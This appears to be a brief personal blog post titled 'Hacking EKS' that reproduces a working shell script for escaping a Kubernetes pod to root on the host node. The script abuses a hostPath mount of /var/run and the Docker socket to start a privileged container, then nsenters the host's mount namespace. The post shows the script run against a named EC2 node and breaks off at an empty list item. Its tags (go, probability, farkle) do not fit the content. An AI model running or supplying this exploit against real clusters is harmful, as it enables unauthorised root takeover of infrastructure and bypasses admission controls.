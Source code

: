 +++
title = "Hacking EKS"
description = "lol iam go brrrr"
date = "2018-12-29"
categories = [ "programming", "post" ]
tags = [
  "go",
  "golang",
  "probability",
  "farkle"
]
+++

root nopriv:
https://gist.github.com/jjo/a8243c677f7e79f2f1d610f02365fdd7#file-kubectl-root-in-host-nopriv-sh-L21

actual command for ip-10-0-1-91.ec2.internal:

```
#!/bin/sh
# Launch a Pod ab-using a hostPath mount to land on a Kubernetes node cluster as root
# without requiring `privileged: true`, in particular can abuse `DenyExecOnPrivileged`
# admission controller.
# Pod command in turn runs a privileged container using node's /var/run/docker.sock.
set -x
kubectl run testpod --restart=Never -it \
    --image overriden --overrides '
{
  "spec": {
    "nodeSelector": { "kubernetes.io/hostname": "'${1:?}'" },
    "tolerations": [{
        "effect": "NoSchedule",
        "key": "node-role.kubernetes.io/master"
    }],
    "containers": [
      {
        "name": "docker",
        "image": "docker:latest",
        "command": [
          "docker", "run", "-it",
          "--privileged", "--pid=host", "--net=host", "docker",
            "sh", "-c",
            "nsenter --mount=/proc/1/ns/mnt -- su -"
        ],
        "stdin": true,
        "tty": true,
        "resources": {"requests": {"cpu": "10m"}},
        "volumeMounts": [
          {"name": "run", "mountPath": "/var/run"}
        ]
      }
    ],
    "volumes": [
     {"name": "run", "hostPath": {"path": "/var/run"}}
    ]
  }
}' --rm --attach "$@"

$ $ ./root-nopriv.sh ip-10-0-1-91.ec2.internal
```

1. run root nopriv
2. 
